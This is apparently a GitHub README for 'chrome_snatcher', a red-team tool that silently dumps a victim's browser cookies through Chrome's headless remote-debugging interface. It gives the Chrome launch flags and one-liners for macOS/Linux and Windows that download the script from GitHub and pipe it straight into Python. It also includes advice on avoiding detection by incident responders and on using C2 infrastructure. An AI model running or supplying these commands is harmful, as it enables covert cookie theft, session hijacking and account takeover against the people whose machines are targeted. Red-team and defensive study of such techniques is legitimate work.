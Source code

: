 # chrome_snatcher
Chrome (headless) cookie snatcher

For use in Red Team ops where you have a shell on a user's machine and want to (silently) dump their cookies, without needing to compromise their keychain on OSX (and risk alerting the user/setting off alarm bells).  (Ab)uses Chrome Debugger Protocol in headless mode to load up a site (and/or potentially their most recent browsing session so you can see what they were looking at, etc, although can be modified as needed), start crumb-snatchin', and obtain all of the l3wtz.  

No additional privilege needed to run it beyond what the user has.

Usage:

`/path/to/user's/chrome --headless=new --remote-debugging-port=9222 --remote-allow-origins="*" --no-sandbox --disable-gpu --profile-directory="Profile <x>" (In my case it wasn't 0 or 1, so you might have to do some additional recon/trial/error here)`

MacOSx/Linux:
`curl -s https://raw.githubusercontent.com/pwna5aurus/chrome_snatcher/main/chrome_snatcher.py | python3`

Windows (potentially risky method for deployment as many if not most Blue/IR watches POSH like a hawk, probably better to use your agent/C2 infra):
`Invoke-WebRequest -Uri "https://raw.githubusercontent.com/pwna5aurus/chrome_snatcher/main/chrome_snatcher.py" -UseBasicParsing | Select-Object -ExpandProperty Content | python -`

Enjoy!
